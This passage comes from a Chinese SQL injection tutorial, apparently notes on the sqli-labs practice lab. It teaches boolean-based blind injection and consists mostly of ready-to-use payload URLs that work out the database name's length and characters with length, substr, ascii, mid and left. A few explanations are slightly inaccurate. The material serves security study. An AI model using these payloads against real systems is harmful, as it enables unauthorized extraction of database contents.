 > `0x5F` 为下划线的换行符
>
> `0x3C,0x68,0x72,0x2F,0x3E` 为换行符的 ascii 码

## 9 布尔盲注

> http://192.168.1.76/sqli-labs/Less-1/

当没有回显时，可以根据反馈信息的真假进行注入

### 9.1 爆库

判断数据库长度

> 通过使用 `length` 计算字段的长度判断真假（一个汉字为 3 个字符，一个数字或字母为 1 个字符）

```
http://192.168.1.76/sqli-labs/Less-1/?id=1' and (length(database()) > 10) --+
```

```
http://192.168.1.76/sqli-labs/Less-1/?id=1' and (length(database()) = 8) --+
```

> 通过二分法缩小范围，当长度为 8 时不报错
>
> 得到数据库的长度为 8 个字符

判断数据库名

> 用 `substr` 从数据库中取出第一个字符

```
http://192.168.1.76/sqli-labs/Less-1/?id=1' and ascii(substr(database(),1,1)) > 100 --+
```

```
http://192.168.1.76/sqli-labs/Less-1/?id=1' and ascii(substr(database(),1,1)) = 115 --+
```

> 用二分法判断 `ascii` 数值
>
> 第一个字符的 ascii 码为 115，字符为 s

```
http://192.168.1.76/sqli-labs/Less-1/?id=1' and ascii(substr(database(),2,1)) = 101 --+
```

> 第二个字符的 ascii 码为 101，字符为 e
>
> 最后得到数据库名为 security

`mid` 与 `substr` 效果相同

 `left` （从左侧第一个开始取三个字符）

```
http://192.168.1.76/sqli-labs/Less-1/?id=1' and ascii(left(database(),3)) > 100 --+
```

 `right` （从右侧第一个开始区三个字符）
